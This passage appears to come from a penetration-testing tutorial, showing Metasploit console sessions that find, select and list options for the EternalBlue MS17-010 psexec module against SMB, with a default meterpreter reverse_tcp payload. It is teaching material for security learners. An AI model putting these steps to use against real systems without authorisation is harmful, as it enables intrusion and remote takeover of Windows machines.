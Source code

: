 Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

```shell-session
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

```shell-session
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```
